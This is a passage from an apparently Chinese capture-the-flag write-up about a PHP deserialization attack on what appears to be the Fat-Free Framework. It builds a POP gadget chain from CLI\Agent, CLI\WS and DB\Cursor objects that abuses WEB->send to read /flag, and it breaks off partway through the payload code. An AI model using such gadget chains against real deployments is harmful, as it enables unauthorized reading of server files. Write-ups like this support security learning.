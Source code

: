 服务器上去测试就segment fault了，黯然离去.jpg

接下来我们只能去找框架的函数了

找着找着我找到了：

![image12618](https://raw.githubusercontent.com/Explorersss/photo/master/20200804111008.png)

这样一个东西，这个函数就很nice

我们传入`WEB->send('/flag',false,true);`那么我们就能得到`/flag`的内容了

最后payload如下：



```php
<?php

namespace CLI{
    class Agent {
        protected
            $server="",
            $id="",
            $socket="",
            $flag="",
            $verb="",
            $uri="",
            $headers="";
        public $events;
        public function check(){

        }
        public function __construct(){
            $this->events=["disconnect"=>array(new \base(),"run")];
            $this->server=&$this;


        }
    };
    class WS
    {
        protected
            $addr="",
            $ctx="",
            $wait="",
            $sockets="",
            $protocol="",
            $agents = [];
        public $events = ["disconnect"=>"bbbbb"];
        public function __construct($val)
        {
            $this->addr = $val;
        }
    }

}
namespace DB{

    abstract class Cursor  implements \IteratorAggregate {
        protected
            //! Flat-file DB wrapper
            $db,
            //! Data file
            $file,
            //! Document identifier
            $id,
```